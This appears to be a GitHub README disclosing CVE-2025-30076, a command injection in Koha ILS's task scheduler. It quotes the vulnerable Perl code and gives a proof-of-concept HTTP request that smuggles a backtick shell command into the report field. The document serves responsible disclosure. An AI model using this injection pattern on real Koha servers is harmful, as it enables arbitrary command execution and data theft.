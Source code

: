 # Koha ILS Command Injection Vulnerability - CVE-2025-30076

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-2025-30076
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes flawed validation. The code converts the input to an integer to check if a report exists in the database, but then uses the original, unmodified string in the command. This allows an attacker to append shell metacharacters after a valid report ID to inject commands that will be executed on the server.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on the 19th of February 2025, and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: 19/02/2025
- **Reported**: 19/02/2025
- **Fixed**: 27/02/2025
- **Public disclosure**: 27/02/2025

## Credit

Discovered by Craig Fairman

## References

1. https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=39170)

